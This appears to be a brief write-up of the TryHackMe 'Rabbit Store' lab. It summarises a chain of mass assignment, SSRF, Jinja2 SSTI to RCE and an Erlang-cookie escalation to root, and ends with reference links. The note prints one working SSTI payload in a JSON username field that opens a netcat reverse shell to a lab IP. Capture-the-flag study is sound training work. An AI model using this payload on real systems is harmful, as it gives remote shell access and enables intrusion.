 
2025-04-03 14:44

Source: #Boot2root 
# TL;DR

**Rabbit Store** started with exploiting a **mass assignment vulnerability** to register an activated account, granting access to an API endpoint vulnerable to **SSRF**. Leveraging this **SSRF** vulnerability, we accessed the **API** documentation and discovered another endpoint vulnerable to **SSTI**, which we exploited to achieve **RCE** and gain a shell.

After obtaining a shell, we retrieved the **Erlang cookie**, which allowed us to enumerate the **RabbitMQ** instance and discover the password for the **root** user



Jinja [[SSTI]] 
```json
{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.62.140 1234 >/tmp/f').read() }}"}

```





### References
[TryHackMe | Rabbit Store](https://tryhackme.com/room/rabbitstore)

[Flask Jinja2 Pentesting | Exploit Notes](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/)
[Rabbit Store | THM Writeup :: CyberJagadeesh - Learn Cyber Security](https://cyberjagadeesh.github.io/posts/thm/rabbitstore/writeup/)
[Reverse Shelling via Jinja2 SSTI using ngrok | by V!hanga D | Medium](https://medium.com/@dvihanga32/reverse-shell-via-jinja2-ssti-using-ngrok-514f6641b2ee)
https://www.rapid7.com/db/modules/exploit/multi/misc/erlang_cookie_rce/
https://jaxafed.github.io/posts/tryhackme-rabbit_store/#shell-as-root